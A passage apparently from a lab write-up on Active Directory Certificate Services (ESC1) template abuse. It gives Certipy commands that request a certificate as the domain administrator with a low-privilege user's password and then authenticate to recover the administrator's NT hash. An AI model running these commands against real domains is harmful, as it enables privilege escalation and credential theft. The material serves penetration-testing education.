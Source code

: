 ![](/screenshots/20230724225643.png?raw=true)

### Template Abuse

First we're going to request the vulnerable template with valid domain user credentials and specify the UPN of the administrator account.

`certipy req -u s.jackson@certipied.local -p 'Pr3-0wn3d@#.' -ca Certipied-CA -template Vuln-ESC1 -upn administrator@certipied.local -dc-ip 192.168.91.181`

![](/screenshots/20230724225958.png?raw=true)

Then we're going to use the certificate we have obtained to authenticate, which will give us the NT hash of the account.

`certipy auth -pfx administrator.pfx -dc-ip 192.168.91.181`
![](/screenshots/20230724230105.png?raw=true)

